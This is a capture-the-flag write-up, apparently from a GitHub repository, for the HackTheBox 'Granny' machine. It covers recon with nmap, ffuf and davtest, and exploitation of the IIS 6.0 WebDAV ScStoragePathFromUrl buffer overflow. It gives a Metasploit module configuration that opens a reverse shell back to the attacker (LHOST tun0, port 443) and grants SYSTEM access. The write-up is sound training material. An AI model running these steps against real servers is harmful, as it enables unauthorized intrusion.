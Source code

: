 # Granny [HTB](https://app.hackthebox.com/machines/Granny)
![granny-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/granny-01.png)

## Recon

After adding the target to our `/etc/hosts` file, we can start scanning it with:

```bash
nmap -sC -sV -A -p- granny.htb -oN nmap.results
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/nmap-res-02.png)

We have the following:

+ An IIS v6.0 server running on port 80.

It appears that the server is running an extremly outdated IIS server, as Microsoft released IIS v6.0 with
the 2003 Windows Server on May 28, 2003, which reached End-of-Life on Jul 14, 2015. [source](https://learn.microsoft.com/en-us/lifecycle/products/internet-information-services-iis) 

I'm thinking public exploits. 


### IIS Port 80

With a quick Goolge search, we can find a public exploit for IIS V6.0 on [Exploit-DB](https://www.exploit-db.com/exploits/41738): 

![payload-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/payload-03.png)

This is a python 2 script, exploiting a buffer overflow vulnerability that lays in the `ScStoragePathFromUrl` function of the `WebDAV` Microsoft standard. 

`WebDAV` is an Internet-based open standard that enables editing Web sites over HTTP and HTTPS connections, which also supports file uploads to the server. This is not enabled by default, when you install the IIS server role, you need to check a box to enable `WebDAV`, [source](https://learn.microsoft.com/en-us/iis/configuration/system.webserver/webdav/)

The `WebDAV` interface could be on the server root directory, or it could be on a dedicated directory,  It depends on the config file. However, a common location is `/webdav` lets give it a shot:

![find-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/find-04.png)

It says the service is unavailable, maybe its disabled? Lets try directory busting to be sure:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/IIS.fuzz.txt -u http://granny.htb/FUZZ
``` 

![ffuf-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/ffuf-05.png)

Lets open this directory:

![vti-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/vti-06.png)

Looks interesting, but were not sure if its WebDAV enabled. We can verify this with:

```bash
davtest -url http://granny.htb/_vti_bin
```

![davtest-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/davtest-07.png)

The file upload failed, that's one exploit vector, But the `WebDAV` connection succeeded, which means we 
can try the buffer-overflow exploit we found earlier for IIS 6.0. 

I've tried the python script from exploit-DB, the issue is with the shellcode, which opens `calc.exe`, 
instead of esteblishing a reverse shell. So i found another exploit on [Github](https://github.com/danigargu/explodingcan/tree/master). This one specifies that the shellcode must be alphanumerically encoded, Iv'e tried it, didnt work for me. I tried a combination of different shellcodes and exploits, nothing worked for me. 


So instead i decided to go for the Metasploit implemantation of the exploit. 

```bash
use windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS granny.htb
set LHOST tun0
set LPORT 443
set TARGETURI /_vti_bin
```

![options-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/options-08.png)

From here we can run `exploit`:

![root-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/root-09.png)


Not only do we get a shell, we get full system access. However do note, this is in fact a 2003 Windows 
server, the directory structure is different from modern Windows systems. The user's folders are in `C:\Documents and Stettings`. 

